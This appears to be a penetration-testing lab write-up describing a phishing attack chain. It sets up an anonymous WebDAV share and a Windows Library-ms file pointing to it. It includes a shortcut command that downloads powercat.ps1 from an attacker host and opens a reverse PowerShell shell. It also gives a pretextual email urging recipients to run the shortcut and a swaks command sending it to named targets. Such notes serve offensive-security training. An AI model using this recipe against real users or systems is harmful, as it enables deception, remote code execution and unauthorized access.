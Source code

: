 # Phishing

### Setting up WebDAV:

{% code overflow="wrap" %}
```sh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
{% endcode %}

* **--auth=anonymous:** disable authentication&#x20;
* **--root /home/kali/webdav/:** root of directory of webdav share

Save and close config.Library-ms in Visual Studio Code:

{% code title="config.Library-ms " overflow="wrap" %}
```visual-basic
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}

* `<url>http://192.168.119.2</url>`: points to webdav share
* embedds connection to webdav share

### Create shortcut link

Right-click on the Desktop and select _New_ > _Shortcut_

{% code overflow="wrap" %}
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
{% endcode %}

Copy `.lnk` file to kali and add to the webdav share

### Send phishing email

{% code title="body.txt" overflow="wrap" %}
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
{% endcode %}

{% code overflow="wrap" %}
```sh
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
{% endcode %}

* **-t**: targets
* **--from**: sender&#x20;
* **--attach**: attachments
* **--suppress-data**: summarize information regarding the SMTP transactions
* **--header**: subject
* **--body**: email body, using contents of body.txt&#x20;
* **--server:** target IP address
* **-ap:** enable password authentication.

